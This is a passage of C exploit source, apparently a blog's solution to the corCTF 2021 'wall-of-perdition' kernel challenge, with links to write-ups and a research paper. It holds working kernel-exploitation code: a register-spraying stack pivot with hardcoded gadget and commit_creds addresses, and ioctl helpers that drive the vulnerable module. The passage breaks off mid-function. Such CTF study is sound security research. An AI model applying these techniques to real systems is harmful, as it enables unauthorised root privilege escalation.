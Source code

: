```python
    }
    // int sk_skt[SOCKET_NUM][2];
    int pipe_fd[PIPE_NUM][2];
    void libxInit(){
        back2user = back2userImp;
        hook_segfault();
        saveStatus();
        // initSocketArray(sk_skt);
        initPipeBuffer(pipe_fd);
    }
#endif // 
size_t pivot, target_heap;
u64  addr_kstrtab_commit_creds = 0xffffffff81b4fc04;
void tainRegs(u64 base,u64 heap){
    
    pivot = 0xffffffff810043cf - NO_ASLR_BASE + base; 
    target_heap = heap + 0x30e00;
    pivot = (pivot << 0x8) + 0xff;
    target_heap = (target_heap << 0x8) + 0xff;

    __asm__("mov rax, 0x9999999999999999;"
    "mov rbx, 0x9999999999999999;"
    "mov rcx, 0x9999999999999999;"
    "mov rdx, 0x9999999999999999;"
    "mov rdi, 0x9999999999999999;"
    "mov rsi, 0x9999999999999999;"
    "mov r8,  0x9999999999999999;"
    "mov r9,  0x9999999999999999;"
    "mov r10, 0x9999999999999999;"
    "mov r11, 0x9999999999999999;"
    "mov r12, 0x9999999999999999;"
    "mov r13, 0x99999999999999ff;"
    "mov r14, target_heap;"
    "mov r15, pivot;"
    "leave;"
    "ret;");
}
typedef struct payload{
    char iface[0x10];
    char name[0x10];
    char ip[0x10];
    char mask[0x10];
    uint8_t idx;
    uint8_t rule_type;
    int16_t proto;
    int16_t port;
    uint8_t action;
    uint8_t unk;
} pay;
int fd = 0;
void add(size_t rule_type,size_t idx,char *ip, char *mask){
    pay * ptr = calloc(1,sizeof(pay));
    memcpy(ptr->ip,ip,0x10);
    memcpy(ptr->mask,mask,0x10);
    ptr->idx = idx;
    ptr->rule_type = rule_type;
    
    ioctl(fd,0x1337babe,ptr);
    free(ptr);
};
void del(size_t rule_type,size_t idx){
    pay * ptr = calloc(1,sizeof(pay));
    ptr->idx = idx;
```

[1]: https://github.com/Crusaders-of-Rust/corCTF-2021-public-challenge-archive/tree/main/pwn/wall-of-perdition
[2]: https://syst3mfailure.io/wall-of-perdition/
[3]: https://dl.acm.org/doi/abs/10.1145/3576915.3623220
[4]: https://github.com/sefcom/RetSpill/blob/main/igni/chain_builder.py#L97
[6]: https://elixir.bootlin.com/linux/latest/source/include/linux/msg.h#L9
[7]: https://elixir.bootlin.com/linux/latest/source/ipc/msgutil.c#L37
[8]: https://n132.github.io/2024/02/09/IPS.html